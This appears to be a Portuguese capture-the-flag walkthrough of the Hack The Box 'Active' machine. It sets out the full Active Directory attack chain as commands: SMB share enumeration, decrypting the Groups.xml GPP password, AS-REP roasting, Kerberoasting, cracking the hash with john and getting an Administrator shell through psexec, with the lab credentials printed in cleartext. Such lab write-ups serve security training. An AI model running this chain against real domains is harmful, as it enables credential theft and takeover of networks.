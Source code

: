 Active
========================

## Referencia em video

![type:video](https://youtube.com/embed/Me_IsOSDiVs)

Temas envolvidos:


[Enumeração DNS](https://www.youtube.com/watch?v=Me_IsOSDiVs&t=180s)  
[Enumeração de usuários Kerberos kerbrute](https://www.youtube.com/watch?v=Me_IsOSDiVs&t=390s)  
[Groups.xml](https://www.youtube.com/watch?v=Me_IsOSDiVs&t=600s)  
[AsRep Roasting](https://www.youtube.com/watch?v=Me_IsOSDiVs&t=1045s)  
[Kerberoasting](https://www.youtube.com/watch?v=Me_IsOSDiVs&t=1400s)  

    sudo nmap_enum active.htb | tee nmap_output.txt

Aqui sossegado:

    smbclient -L //10.10.10.100
    smbclient //10.10.10.100/Replication -c 'recurse true; ls'
    
![qownnotes-media-vtsXyC](../../../media/qownnotes-media-vtsXyC.png)

    smbclient //10.10.10.100/Replication
    cd active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
    get Groups.xml

# Exploitation

    gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ


![qownnotes-media-jysviZ](../../../media/qownnotes-media-jysviZ.png)

    impacket-psexec active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
    
    impacket-GetNPUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

# Privilege Escalation
    
    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
    
![qownnotes-media-tKQdxa](../../../media/qownnotes-media-tKQdxa.png)

![qownnotes-media-qApPLP](https://github.com/alisonocosta/InfraHacking/blob/main/.gitbook/assets/qownnotes-media-qApPLP.png)

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    
    impacket-psexec 'active.htb/Administrator:Ticketmaster1968@10.10.10.100'
    
![qownnotes-media-LCzGOy](https://github.com/alisonocosta/InfraHacking/tree/main/.gitbook/assets/qownnotes-media-LCzGOy.png)

